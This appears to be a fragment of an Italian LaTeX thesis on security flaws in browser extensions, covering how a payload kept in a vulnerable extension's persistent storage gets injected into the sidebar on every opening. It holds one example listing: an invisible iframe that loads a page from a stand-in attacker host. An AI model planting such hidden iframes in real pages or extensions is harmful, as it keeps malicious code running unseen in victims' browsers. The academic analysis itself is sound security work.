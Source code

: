 \documentclass{sapthesis}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\refCode}[1]{Listato~\ref{#1}}
\newcommand{\JS}{Javascript}
\newcommand{\tagHTML}[1]{\code{<#1>}}
\newcommand{\iframe}{\tagHTML{iframe}}
\begin{document}
        \subsection{Script persistente}
            L'attaccante potrebbe non essere interessato agli api accessibili dal codice iniettato ma
            alla frequenza con cui viene eseguito o alla sua persistenza sulla macchina della vittima, 
            in questi termini si pensi ai crypto-miner o agli ad-ware, programmi che necessitano di 
            rimanere in esecuzione quanto piu a lungo possibile.
            Non è raro trovare link ingannevoli che conducono ( piu o meno
            volontariamente) la vittima su una pagina web ospitante \JS malevolo, ma tutti questi malware
            si imbattono nel problema della volatilità della pagina ospite che potrebbe venir chiusa in
            qualsiasi momento. Negli anni sono state sviluppate tecniche per celare la finestra agli occhi
            dell'utente cercando di mantenerla attiva il più a lungo possibile (si pensi ai pop-under), ma
            una estensione vulnerabile che visualizzi di frequente dati immagazzinati in uno storage 
            persistente fornirebbe agli sviluppatori di malware un modo piu silenzioso e robusto di
            archiviare link ai propri script.\\
            Il \refCode{code:iframe-nascosto} mostra il codice html per iniettare un \iframe{} invisibile
            all'utente contenente una pagina che immaginiamo svolga un qualche task malevolo a lungo termine.

            \begin{lstlisting}[label=code:iframe-nascosto]
    <iframe src=http://www.attacker.xyz/task.html style="position: absolute; width:0; height:0; border:0;" >
\end{lstlisting}

            Dopo essere stato inviato allo script in background, il payload viene salvato nella storage ed
            iniettato in modo automatico nella finestra della sidebar ad ogni apertura. Nell'ipotesi che
            la sidebar venga aperta almeno una volta per ogni sessione di utilizzo del browser, l'attaccante
            avrà la quasi certezza che il task malevolo verrà eseguito con frequenza.
\end{document}
